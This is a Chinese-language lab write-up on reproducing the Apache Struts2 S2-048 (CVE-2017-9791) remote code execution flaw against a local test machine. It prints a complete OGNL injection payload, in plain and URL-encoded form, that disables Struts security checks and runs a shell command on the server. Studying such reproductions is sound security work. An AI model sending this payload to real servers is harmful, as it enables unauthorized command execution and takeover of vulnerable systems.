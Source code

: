 ## Struts2_048(CVE-2017-9791)远程代码执行漏洞EXP

官方描述：

```
It is possible to perform a RCE attack with a malicious field value when using the Struts 2 Struts 1 plugin and it's a Struts 1 action and the value is a part of a message presented to the user, i.e. when using untrusted input as a part of the error message in the ActionMessageclass.
```



### 环境搭建

靶机：CentOS7（192.168.2.102：48938）



![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211226115030.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211226115041.png)

### 漏洞利用

主要受影响的Struts版本为：**2.3.x**

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211226115226.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211226115300.png)

得出正确结果，证明漏洞存在

构造payload：

```bash
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ls /tmp').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

URL编码后：

```bash
name=%25%7B(%23_%3D'multipart%2Fform-data').(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23_memberAccess%3F(%23_memberAccess%3D%23dm)%3A((%23container%3D%23context%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ognlUtil%3D%23container.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ognlUtil.getExcludedPackageNames().clear()).(%23ognlUtil.getExcludedClasses().clear()).(%23context.setMemberAccess(%23dm)))).(%23cmd%3D'ls%20-l%20%2Ftmp').(%23iswin%3D(%40java.lang.System%40getProperty('os.name').toLowerCase().contains('win'))).(%23cmds%3D(%23iswin%3F%7B'cmd.exe'%2C'%2Fc'%2C%23cmd%7D%3A%7B'%2Fbin%2Fbash'%2C'-c'%2C%23cmd%7D)).(%23p%3Dnew%20java.lang.ProcessBuilder(%23cmds)).(%23p.redirectErrorStream(true)).(%23process%3D%23p.start()).(%23ros%3D(%40org.apache.struts2.ServletActionContext%40getResponse().getOutputStream())).(%40org.apache.commons.io.IOUtils%40copy(%23process.getInputStream()%2C%23ros)).(%23ros.flush())%7D&age=123&__checkbox_bustedBefore=true&description=123

```



再次提交抓包如下：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211226115532.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211226120831.png)

也可以直接利用工具：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211226121322.png)

### 漏洞原因

参考：

[Struts2_048(CVE-2017-9791)远程代码执行漏洞EXP - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/1867)

